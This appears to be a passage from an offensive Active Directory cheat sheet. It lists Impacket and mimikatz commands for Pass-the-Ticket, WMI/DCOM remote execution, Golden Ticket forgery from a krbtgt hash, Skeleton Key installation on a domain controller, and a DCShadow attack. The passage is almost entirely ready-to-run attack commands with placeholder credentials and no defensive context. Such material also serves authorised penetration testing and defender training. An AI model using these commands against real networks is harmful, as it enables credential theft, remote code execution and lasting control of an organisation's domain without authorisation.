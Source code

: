### Pass-the-Ticket

```bash
# Export Tickets
python3 getTGT.py -hashes :ntlm-hash domain.com/username

# Use Ticket
export KRB5CCNAME=username.ccache
python3 psexec.py -k -no-pass domain.com/username@target-hostname
```

### WMI/DCOM

```bash
# WMI Execution
python3 wmiexec.py domain.com/username:password@target-ip

# DCOM Execution
python3 dcomexec.py domain.com/username:password@target-ip
```

---

## 🔒 Persistence

### Golden Ticket

```bash
# Create Golden Ticket
python3 ticketer.py -nthash krbtgt-hash -domain-sid domain-sid -domain domain.com -extra-sid enterprise-admin-sid administrator

# Use Golden Ticket
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass domain.com/administrator@dc-hostname
```

### Skeleton Key

```bash
# Install Skeleton Key
python3 smbexec.py domain.com/username:password@dc-ip
mimikatz # privilege::debug
mimikatz # misc::skeleton
```

### DCShadow

```bash
# DCShadow Attack
python3 dcshadow.py domain.com/username:password@dc-ip -object-dn "CN=target,CN=Users,DC=domain,DC=com"
```
